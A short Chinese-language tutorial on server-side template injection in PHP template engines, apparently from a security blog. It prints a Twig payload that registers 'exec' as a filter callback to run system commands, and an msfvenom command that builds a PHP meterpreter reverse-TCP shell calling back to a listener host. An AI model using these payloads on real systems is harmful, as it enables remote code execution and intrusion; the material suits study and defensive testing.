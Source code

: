 # PHP 中的 SSTI

php常见的模板：twig，smarty，blade

## **Twig**

Twig是来自于Symfony的模板引擎，它非常易于安装和使用。它的操作有点像Mustache和liquid。

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

在这里提供一个针对twig的攻击载荷：

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

[![img](assets/1644460030525-9e76aef6-1119-443a-9a49-e7841bfbc093.png)](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200818231853350-914354726.png)

使用msf生成了一个php meterpreter有效载荷

```
msfvenom -p php/meterpreter/reverse_tcp -f raw LHOST=192.168.127.131 LPORT=4321 > /var/www/html/shell.txt
```

msf进行监听：

[![img](assets/1644460030614-f366bfd6-20ac-4409-9690-819d05e44042.png)](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200818232520602-1757346385.png)
